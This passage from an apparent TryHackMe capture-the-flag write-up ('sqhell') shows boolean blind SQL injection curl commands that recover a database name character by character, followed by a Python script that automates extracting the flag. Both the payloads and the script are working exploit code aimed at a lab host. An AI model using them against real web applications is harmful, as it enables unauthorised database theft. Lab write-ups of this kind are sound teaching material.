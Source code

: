 ```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),3,1))) = 104 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),4,1))) = 101 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),5,1))) = 108 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),6,1))) = 108 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),7,1))) = 95 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),8,1))) = 51 --+"
{"available":false}
```

We've confirmed the database is called sqhell_3. Next we would use the same technique to get the table names in the database, of course that would be a long a laborious process. If you search online for boolean or blind SQLi scripts you'll find plenty of examples. These just automate what we did above, to speed this up I've written one for this flag:

```text
import requests
import string

server = "sqhell.thm" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        req = requests.get("http://" + server + f"/register/user-check?username=admin' AND (ASCII(SUBSTR((SELECT flag FROM sqhell_3.flag),{loop},1))) = '{a}'; --+")
        if 'false' in req.text:
             flag += chr(a)
             loop += 1
             print("Finding Flag: ", flag, end="\r")
             break
print("Flag found: ", flag)
```
